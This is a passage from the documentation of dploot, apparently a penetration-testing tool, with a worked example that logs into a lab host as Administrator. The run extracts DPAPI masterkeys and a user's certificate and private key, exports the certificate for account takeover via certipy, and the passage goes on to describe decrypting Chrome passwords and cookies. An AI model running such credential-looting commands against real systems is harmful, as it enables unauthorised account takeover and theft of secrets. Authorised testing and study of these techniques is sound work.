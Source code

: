With `pvk`:

```text
$ dploot certificates waza.local/Administrator:'Password!123'@192.168.57.5 -pvk key.pvk
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found MasterKey: \\192.168.57.5\C$\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-500\927478ee-ab0e-4958-9eed-1d99f4dd851f
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\7eb68c18-1533-4448-8328-dd4e8439059a
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\dc22a574-7721-4d0e-8fbe-b1d4be93a73e
[*] Found MasterKey: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1104\34fb7a8f-13b9-45f7-9588-9be6f77513d4
[*] Found MasterKey: \\192.168.57.5\C$\Users\pigeon\AppData\Roaming\Microsoft\Protect\S-1-5-21-2004071915-2714639843-996485644-1001\bc6677c5-6403-49d1-a06b-6f03a5d13dc2
[*] Found MasterKey: \\192.168.57.5\C$\Users\scroche\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1105\ab0397f3-c1dd-4ceb-a4ee-cdb454e2a2a8
[*] Found PrivateKey Blob: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2239934126-3187342257-2761709825-1104\3dce313258d2d89bd659c770dd4d9bb8_a14e72b0-8859-4206-8d30-211c4f03281b
[*] Found Certificates Blob: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\8F4463B200970B8ECC8FFCDC2AB152478AB654AE
[*] Found match between 8F4463B200970B8ECC8FFCDC2AB152478AB654AE certificate and 3dce313258d2d89bd659c770dd4d9bb8_a14e72b0-8859-4206-8d30-211c4f03281b private key !

Issuer:			CN=waza-SRV01-CA,DC=waza,DC=local
Subject:		CN=John Smith,CN=Users,DC=waza,DC=local
Valid Date:		2022-04-14 13:58:46
Expiry Date:		2023-04-14 13:58:46
Extended Key Usage:
	Unknown OID (1.3.6.1.4.1.311.10.3.4)
	emailProtection (1.3.6.1.5.5.7.3.4)
	clientAuth (1.3.6.1.5.5.7.3.2)
	[!] Certificate is used for client auth!

-----BEGIN CERTIFICATE-----
MIIFvjCCBKagAwIBAgITZQAAAIG+kiOSy5YNoQAAAAAAgTANBgkqhkiG9w0BAQsF
[...]
Ite9xByUf01wuPBUgtJr559zNAhg72pY6rGkja7Ky97bjw==
-----END CERTIFICATE-----

[*] Writting certificate to 8F4463B200970B8ECC8FFCDC2AB152478AB654AE.pfx
```

***Tips***: *If you get a certificate with client authentication EKU, you can takeover the account with [certipy](https://github.com/ly4k/Certipy).*

#### browser

The **browser** command will search for users password and cookies in chrome based browsers, and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, or with `-passwords FILE` combo of user:password, `-nthashes` combo of user:nthash or a `-pvk PVKFILE` to first decrypt masterkeys.
